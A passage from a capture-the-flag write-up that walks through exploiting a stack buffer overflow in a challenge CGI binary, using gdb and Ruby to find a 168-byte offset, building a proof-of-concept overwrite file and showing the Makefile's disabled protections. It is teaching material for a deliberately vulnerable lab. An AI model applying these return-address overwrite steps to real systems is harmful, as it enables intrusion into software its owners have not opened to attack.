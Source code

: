 ```
(gdb) x/i $rip
=> 0x40175e <main+265>: ret
```

Crashing at `ret` is what you'd expect if you overwrote the return address, so that's good news! We can inspect the value in `rsp` to see where it's trying to return to:

```
(gdb) x/xwg $rsp
0x7fffffffd918: 0x5656565656565656
```

Aha! 0x56 is `V`! We can do some math... or, better yet, just use Ruby some more:

```
3.1.3 :001 > puts (?A..?U).to_a.map { |c| c*8 }.join.length
168
```

So 168 bytes are needed before the return address! Let's verify that by creating a file with 168 `A`s followed by 8 `B`s. If it works, we'd expect to crash at `BBBBBBBB` (0x4242424242424242):

```
$ irb
3.1.3 :002 > File.write('/tmp/poc.bin', ('A'*168)+('B'*8))
 => 176
```

```
$ CONTENT_LENGTH=176 gdb -q ./auth.cgi
Reading symbols from ./auth.cgi...
(gdb) run < /tmp/poc.bin
Starting program: /home/ron/projects/ctf/ctf-2024/challenges/cant-give-in/challenge/src/auth.cgi < /tmp/poc.bin
Content-Type: text/plain


Program received signal SIGSEGV, Segmentation fault.
0x000000000040175e in main (argc=1, argv=0x7fffffffdad8) at auth.c:32
warning: Source file is more recent than executable.
32      }
(gdb) x/xwg $rsp
0x7fffffffd918: 0x4242424242424242
```

Aha! Now we know how to overwrite the return address. But what do we put there?

## Jumping to the stack

The first binary is compiled with all the fun flags:

```makefile
CFLAGS?=-Wall -fno-stack-protector -no-pie -z execstack -z norelro -static -g

all: auth.cgi

auth.cgi: auth.c
	gcc ${CFLAGS} -o auth.cgi auth.c

clean:
	rm -f *.o auth.cgi
```
